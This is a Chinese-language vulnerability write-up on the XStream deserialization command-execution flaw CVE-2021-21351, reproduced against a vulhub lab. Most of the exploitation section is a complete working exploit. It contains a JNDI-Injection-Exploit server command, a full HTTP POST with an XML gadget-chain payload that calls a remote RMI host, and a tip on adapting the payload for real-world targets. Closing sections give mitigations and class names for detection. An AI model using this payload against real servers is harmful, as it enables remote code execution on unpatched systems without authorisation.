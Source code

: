 ```yaml
---
category: 网络安全
tag: 漏洞分析
---
```


# 漏洞名称：XStream 反序列化命令执行漏洞

<!-- more -->

---

## 漏洞介绍

> [国家信息安全漏洞库 (cnnvd.org.cn)](http://www.cnnvd.org.cn/index.html)

XStream 是 Java 类库，用来将对象序列化成 XML （JSON）或反序列化为对象。XStream 是自由软件，可以在 BSD 许可证的许可下分发。它是一种 OXMapping 技术，是用来处理 XML 文件序列化的框架在将 javaBean 序列化，或将 XML 文件反序列化的时候，不需要其它辅助类和映射文件，使得 XML 序列化不再繁琐。

XStream 在解析 XML 文本时使用黑名单机制来防御反序列化漏洞，但是其 1.4.15 及之前版本黑名单存在缺陷，攻击者可利用`javax.naming.ldap.Rdn$RdnEntry`及`javax.sql.rowset.BaseRowSet`构造 JNDI 注入，进而执行任意命令。

---

### 漏洞危害

该漏洞允许恶意第三方在缺少输入验证的情况下而执行恶意代码。

---

### 影响范围

Xstream<=1.4.15

---

## 漏洞原理

---

## 漏洞利用

### 靶机环境

vulhub/xstream/CVE-2021-21351

---

### 利用方式

由于目标环境 Java 版本高于 8u191，故我们需要借助[这篇文章](https://www.veracode.com/blog/research/exploiting-jndi-injections-java)中给出的方法，使用`org.apache.naming.factory.BeanFactory`加 EL 表达式注入的方式来执行任意命令。

使用[这个工具](https://github.com/welk1n/JNDI-Injection-Exploit/)启动恶意 JNDI 服务器：

```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "touch /tmp/success" -A 10.182.234.169
```

![02](./img/xstream_CVE-2021-21351/02.png)

使用上图中基于 SpringBoot 利用链的 RMI 地址作为`<dataSource>`的值，构造 POC 如下：

```
POST / HTTP/1.1
Host: 192.168.1.189:8081
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: application/xml
Content-Length: 3185

<sorted-set>
  <javax.naming.ldap.Rdn_-RdnEntry>
    <type>ysomap</type>
    <value class='com.sun.org.apache.xpath.internal.objects.XRTreeFrag'>
      <m__DTMXRTreeFrag>
        <m__dtm class='com.sun.org.apache.xml.internal.dtm.ref.sax2dtm.SAX2DTM'>
          <m__size>-10086</m__size>
          <m__mgrDefault>
            <__overrideDefaultParser>false</__overrideDefaultParser>
            <m__incremental>false</m__incremental>
            <m__source__location>false</m__source__location>
            <m__dtms>
              <null/>
            </m__dtms>
            <m__defaultHandler/>
          </m__mgrDefault>
          <m__shouldStripWS>false</m__shouldStripWS>
          <m__indexing>false</m__indexing>
          <m__incrementalSAXSource class='com.sun.org.apache.xml.internal.dtm.ref.IncrementalSAXSource_Xerces'>
            <fPullParserConfig class='com.sun.rowset.JdbcRowSetImpl' serialization='custom'>
              <javax.sql.rowset.BaseRowSet>
                <default>
                  <concurrency>1008</concurrency>
                  <escapeProcessing>true</escapeProcessing>
                  <fetchDir>1000</fetchDir>
                  <fetchSize>0</fetchSize>
                  <isolation>2</isolation>
                  <maxFieldSize>0</maxFieldSize>
                  <maxRows>0</maxRows>
                  <queryTimeout>0</queryTimeout>
                  <readOnly>true</readOnly>
                  <rowSetType>1004</rowSetType>
                  <showDeleted>false</showDeleted>
                  <dataSource>rmi://10.182.234.169:1099/schsit</dataSource>
                  <listeners/>
                  <params/>
                </default>
              </javax.sql.rowset.BaseRowSet>
              <com.sun.rowset.JdbcRowSetImpl>
                <default/>
              </com.sun.rowset.JdbcRowSetImpl>
            </fPullParserConfig>
            <fConfigSetInput>
              <class>com.sun.rowset.JdbcRowSetImpl</class>
              <name>setAutoCommit</name>
              <parameter-types>
                <class>boolean</class>
              </parameter-types>
            </fConfigSetInput>
            <fConfigParse reference='../fConfigSetInput'/>
            <fParseInProgress>false</fParseInProgress>
          </m__incrementalSAXSource>
          <m__walker>
            <nextIsRaw>false</nextIsRaw>
          </m__walker>
          <m__endDocumentOccured>false</m__endDocumentOccured>
          <m__idAttributes/>
          <m__textPendingStart>-1</m__textPendingStart>
          <m__useSourceLocationProperty>false</m__useSourceLocationProperty>
          <m__pastFirstElement>false</m__pastFirstElement>
        </m__dtm>
        <m__dtmIdentity>1</m__dtmIdentity>
      </m__DTMXRTreeFrag>
      <m__dtmRoot>1</m__dtmRoot>
      <m__allowRelease>false</m__allowRelease>
    </value>
  </javax.naming.ldap.Rdn_-RdnEntry>
  <javax.naming.ldap.Rdn_-RdnEntry>
    <type>ysomap</type>
    <value class='com.sun.org.apache.xpath.internal.objects.XString'>
      <m__obj class='string'>test</m__obj>
    </value>
  </javax.naming.ldap.Rdn_-RdnEntry>
</sorted-set>
```

**PS** 在实战中，如果目标 Java 版本较低，POC 需要做修改，将其中的`<__overrideDefaultParser>false</__overrideDefaultParser>`改成`<__useServicesMechanism>false</__useServicesMechanism>`即可。

发送 poc 后能够看到靶机来请求了恶意的 rmi

![03](./img/xstream_CVE-2021-21351/03.png)

进入目标容器内，可见`touch /tmp/success`已成功执行：

![01](./img/xstream_CVE-2021-21351/01.png)

---

## 威胁防护建议

### 用户处置建议

1. 配置 XStream 的安全框架为允许的类型使用白名单

2. 注册自己的转换器，以防止解组当前已知的 Java 运行时关键类型

3. 升级 XStream 到最新版本

---

### 安全产品检测建议

检测`javax.naming.ldap.Rdn_-RdnEntry`，`com.sun.org.apache.xpath.internal.objects.XRTreeFrag`, `com.sun.org.apache.xml.internal.dtm.ref.sax2dtm.SAX2DTM`, `com.sun.org.apache.xml.internal.dtm.ref.IncrementalSAXSource_Xerces`
